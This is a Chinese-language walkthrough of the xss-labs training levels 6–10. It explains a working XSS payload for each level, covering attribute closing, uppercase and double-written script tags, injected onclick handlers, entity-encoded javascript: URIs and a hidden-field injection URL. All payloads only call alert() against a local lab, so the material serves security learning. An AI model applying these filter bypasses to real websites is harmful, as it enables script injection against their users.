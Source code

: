 解题思路1：标签闭合 + JS注入，这里的 payload 同第二关，只不过把 script 改成了大写而已：

```js
// 符号 "> 用于闭合 input 标签，即构成 <input name=keyword  value="">
"><SCRIPT>alert()</SCRIPT>
```

解题思路2：标签属性闭合 + 注入事件属性，这里的 payload 同第四关，只不过把 onclick 改成了大写而已：

```js
// 第 1 个双引号用于与 value 属性的第一个双引号构成闭合, 即构成 value=""
// 第 2 个双引号用于与 value 属性的第二个双引号构成闭合, 即构成 onclick="alert()"
" ONCLICK="alert()
```

解题思路3：利用 href 属性 + JS 伪协议，这里的 payload 同第五关，只不过把 href 改成大写而已：

```js
// 符号 "> 用于闭合 input 标签, 即构成 <input name="keyword" value="">
"> <a HREF=javascript:alert()>hack it</a>
```



### 第 07 关：字符串替换，但只做一次

解题思路：标签属性闭合 + JS注入

```js
// 符号 "> 用于闭合 input 标签, 即构成 <input name="keyword" value="">
// script被替换后，SCR 及 IPT 将构成新的 SCRIPT
"> <SCRscriptIPT>alert()</SCRscriptIPT>
```



### 第 08 关：URI 中的实体

解题思路：在 `href` 使用 HTML 实体

```html
javascr&#x69;pt:alert()
```



### 第 09 关：单纯的「必须包含」

解题思路：在 `href` 使用 HTML 实体

```js
// 通过 JS 注释符号 // 来 `http://` 注释掉，防止其影响到前面 JS 的执行
javascr&#x69;pt:alert()//http://
```



### 第 10 关：隐藏表单字段注入

解题思路：标签属性闭合 + 注入事件属性

```js
// 第 1 个双引号用于闭合 value 属性的第一个双引号，即构成 value=""
// 最后 1 个双引号用于闭合 value 属性的最后一个双引号，即构成 type=""，进而令后面的 type="hidden" 失效，使 input 输入框显示在页面中，为最后点击输入框导致弹窗做准备！
http://localhost/xss-labs/level10.php?t_sort=" onclick="alert()" type="
```
